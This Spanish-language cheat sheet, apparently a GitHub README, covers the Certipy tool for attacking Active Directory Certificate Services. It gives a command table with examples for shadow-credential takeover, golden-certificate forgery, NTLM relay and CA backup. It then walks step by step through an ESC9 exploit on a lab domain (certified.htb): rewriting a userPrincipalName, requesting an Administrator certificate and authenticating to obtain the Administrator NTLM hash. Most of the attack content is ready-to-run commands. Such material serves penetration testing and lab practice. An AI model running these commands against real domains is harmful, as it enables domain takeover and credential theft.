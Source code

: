 # Certificate Authority & Common Name Enumeration with Certipy

Certipy es una herramienta poderosa para interactuar con Active Directory Certificate Services (AD CS). Permite enumerar, solicitar y gestionar certificados, además de identificar configuraciones vulnerables que pueden ser explotadas.

- [ESC9 ATTACK](https://www.thehacker.recipes/ad/movement/adcs/certificate-templates#esc9-no-security-extension)

## Instalación
- Instalar con pipx: 
    ```bash
    pipx install certipy-ad
    ```

## Uso Básico
- Enumerar configuraciones vulnerables:
    ```bash
    certipy-ad find -u usuario@dominio.local -p contraseña -dc-ip 192.168.1.100 -vulnerable
    ```

## Comandos Principales

Certipy ofrece una amplia gama de comandos para interactuar con AD CS. A continuación, se presenta una tabla con los comandos más relevantes, sus descripciones, opciones clave y ejemplos prácticos:

| Comando   | Descripción                                                                 | Opciones Clave y Ejemplos                                                                                                                                                     |
|-----------|-----------------------------------------------------------------------------|-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| `find`    | Enumerar plantillas de certificados, CAs y configuraciones vulnerables.    | `-bloodhound`, `-enabled`, `-vulnerable`, `-dc-ip`. Ejemplo: `certipy-ad find -u john@corp.local -p Passw0rd -dc-ip 172.16.126.128 -vulnerable`                              |
| `req`     | Solicitar, recuperar y renovar certificados.                                | `-ca`, `-template`, `-upn`, `-dns`. Ejemplo: `certipy-ad req -username john@corp.local -password Passw0rd -ca corp-DC-CA -target ca.corp.local -template User`              |
| `auth`    | Autenticar usando PKINIT Kerberos o Schannel con certificados.              | `-pfx`, `-no-save`, `-ptt`, `-dc-ip`. Ejemplo: `certipy-ad auth -pfx administrator.pfx -dc-ip 172.16.126.128`                                                               |
| `shadow`  | Gestionar Credenciales Shadow para toma de control de cuentas.             | `-account`, `-device-id`, `auto`. Ejemplo: `certipy-ad shadow auto -username John@corp.local -p Passw0rd -account Jane`                                                     |
| `forge`   | Crear Certificados Dorados usando una CA comprometida.                     | `-ca-pfx`, `-upn`, `-dns`, `-template`. Ejemplo: `certipy-ad forge -ca-pfx CORP-DC-CA.pfx -upn administrator@corp.local -subject 'CN=Administrator,CN=Users,DC=CORP,DC=LOCAL'` |
| `cert`    | Trabajar con archivos PFX, descifrar y extraer certificados/claves.         | `-pfx`, `-password`, `-export`, `-nokey`. Ejemplo: `certipy-ad cert -pfx encrypted.pfx -password "a387a1a1-5276-4488-9877-4e90da7567a4" -export -out decrypted.pfx`         |
| `relay`   | Realizar relay NTLM a endpoints HTTP/RPC de AD CS para explotar vulnerabilidades. | `-target`, `-ca`, `-template`. Ejemplo: `certipy-ad relay -target 'http://ca.corp.local'`                                                                                   |
| `ca`      | Gestionar CA y certificados, incluyendo respaldos y adición de oficiales.  | `-backup`, `-add-officer`, `-enable-template`. Ejemplo: `certipy-ad ca -backup -ca 'corp-DC-CA' -username administrator@corp.local -hashes fc525c9683e8fe067095ba2ddc971889` |
| `template`| Gestionar plantillas de certificados, incluyendo cambios de configuración. | `-save-old`, `-configuration`. Ejemplo: `certipy-ad template -username john@corp.local -password Passw0rd -template ESC4-Test -save-old`                                    |

## Ejemplo de Uso ESC9
A continuación, se describe un ejemplo detallado para identificar y explotar una vulnerabilidad ESC9 utilizando Certipy:

1. **Enumerar configuraciones vulnerables con hashes NTLM**:
    ```bash
    certipy-ad find -u ca_operator@certified.htb -hashes b4b86f45c6018f1b664f70805f45d8f2 -vulnerable -stdout
    ```
    Este comando identificará posibles vulnerabilidades como `ESC9` o `ESC4`.

2. **Modificar el atributo `userPrincipalName`**:
    En el caso de `ESC9`, se puede reescribir el `userPrincipalName` de una cuenta comprometida para que coincida con el de `Administrator`:
    ```bash
    certipy-ad account update -dc-ip 10.10.11.41 -u management_svc -hashes :$HASH -user ca_operator -upn Administrator
    ```

3. **Solicitar un certificado con privilegios elevados**:
    Una vez modificado el `userPrincipalName`, se solicita un certificado para la cuenta comprometida:
    ```bash
    certipy-ad req -u ca_operator -hashes :$HASH -ca certified-DC01-CA -template CertifiedAuthentication -upn Administrator -dc-ip 10.10.11.41 -debug
    ```
    Esto generará un archivo `.pfx` para el usuario `Administrator`.

4. **Revertir el cambio en el `userPrincipalName`**:
    Es importante revertir el cambio para evitar conflictos al autenticar con el certificado generado:
    ```bash
    certipy-ad account update -dc-ip 10.10.11.41 -u management_svc -hashes :$HASH -user ca_operator -upn ca_operator@certified.htb
    ```

5. **Autenticar con el certificado generado**:
    Finalmente, se utiliza el archivo `.pfx` para autenticarse como `Administrator`:
    ```bash
    certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.11.41 -domain certified.htb
    ```
    Esto proporcionará un hash NTLM del usuario `Administrator`.

Este flujo permite explotar la vulnerabilidad ESC9 para obtener acceso privilegiado en el entorno AD CS.